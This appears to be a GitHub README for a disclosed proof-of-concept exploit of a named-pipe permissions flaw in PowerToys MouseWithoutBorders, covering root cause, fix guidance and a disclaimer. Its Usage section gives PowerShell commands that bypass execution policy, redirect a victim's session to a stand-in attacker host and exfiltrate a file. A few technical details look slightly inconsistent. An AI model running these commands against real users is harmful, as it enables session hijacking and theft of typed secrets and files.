

# CarbonBlue

MouseWithoutBorders exposes its control plane over two named pipes whose DACL grants `ReadWrite | CreateNewInstance` to **NT AUTHORITY\Authenticated Users** (every logged-on account) instead of the pipe owner. Any standard user can hijack another user's MWB session, redirect it to an attacker-controlled host, and silently carbon-copy everything they copy, type, or drag: passwords, API tokens, files.

**Disclosed:** 21 August 2026<br>
**Fix released:** October 13 2026 (CVE-2026-83681)<br>

## Affected

- Microsoft PowerToys v0.100.2 ::: MouseWithoutBorders (from 0.1 before 0.102.0) <br>
- Windows 10 / Windows 11<br>


## Root Cause

`IpcChannel<T>.StartIpcServer` (`IClipboardHelper.cs`) builds the pipe's `PipeSecurity` against `WellKnownSidType.AuthenticatedUserSid` and includes `CreateNewInstance` in the ACE. The metadata section of every pipe is locked to the owner; the IPC pipes are not.

```javascript
pipe DACL -> NT AUTHORITY\Authenticated Users : CreateNewInstance, ReadWrite, Synchronize : Allow
```

Over `SettingsSync`, `ConnectToMachine(string pcName, string securityKey)` rewrites the victim's MWB key and redirects their connection to an arbitrary machine. `ClipboardHelper` then carries `SendDragFile` / `SendClipboardData` as the victim user. The ACE should be scoped to `WindowsIdentity.GetCurrent().User` with `CreateNewInstance` dropped from the client-facing rule.

## Usage

Run as any standard user while MouseWithoutBorders runs under a different account.

```powershell
powershell -ExecutionPolicy Bypass -File .\CarbonBlue.ps1
```

Redirect the victim's MWB to an attacker host, then optionally exfil a file as the victim.

```powershell
powershell -ExecutionPolicy Bypass -File .\CarbonBlue.ps1 `
    -Demonstrate -AttackerHost ATTACKER-PC -SecurityKey "attacker-mwb-key" `
    -FilePath "C:\path\to\target\file"
```

## Disclaimer

For educational purposes and authorized security research **only**.<br>
The repository contains a proof-of-concept and is published strictly for security research, education, and defensive testing.<br>
Only run it against devices you own or are explicitly authorised to test. Using it against anyone else is a crime.<br>
The author accepts no liability for any use, misuse, or damage. <br>
You accept **full responsibility** for what you do with it.
